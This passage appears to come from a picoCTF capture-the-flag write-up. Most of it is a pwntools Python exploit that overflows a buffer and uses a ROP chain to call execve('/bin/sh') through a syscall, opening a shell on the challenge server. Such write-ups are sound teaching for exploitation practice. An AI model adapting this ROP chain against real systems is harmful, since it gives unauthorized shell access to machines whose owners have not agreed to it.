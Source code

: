 Now, the `Goal` is to create a payload in order to launch a `shell` :

Using ROPgadget, we'll use `syscall` to launch `execve` to get a shell :

```python
#!/usr/bin/env python
from pwn import *

p = remote('jupiter.challenges.picoctf.org',38467)

# Set the architecture
context.arch='amd64'
# Set a terminal for gdb
context.terminal = ["tmux", "splitw", "-h"]

# Our buffer overflow offset
offset = 120

# Our binary
# elf = ELF("./vuln")
# p = elf.process()

# rop = ROP(elf)
# gdb.attach(p,'b *0x400c8b')

# Functions to pack payload values
pack = make_packer('all', endian='big', sign='unsigned')
p64 = make_packer(64, endian='little', sign='unsigned')

payload = pack(0x90)*120            # 120 caracteres
payload += p64(0x4163f4)            # pop rax ; ret
payload += p64(59)                  # used by syscall to launch execve (59)
payload += p64(0x44a6b5)            # pop rdx ; ret
payload += pack(0x2F62696E2F736800) # /bin/sh\x00
payload += p64(0x400696)            # pop rdi ; ret
payload += p64(0x006b7000)          # free space for a pointer found using gdb vmmap
payload += p64(0x436393)            # mov qword ptr [rdi], rdx ; ret
payload += p64(0x44cc49)            # pop rdx ; pop rsi ; ret
payload += p64(0)                   # 0
payload += p64(0)                   # 0
payload += p64(0x40137c)            # syscall

# The number to guess prompt
p.sendlineafter("?\n", "84")
# Winner name prompt
p.recvuntil('\nName? ')
# Send the payload
p.sendline(payload)
# Interactive to move to get access to the shell
p.interactive()
```

Launching this script we can get the `flag` :

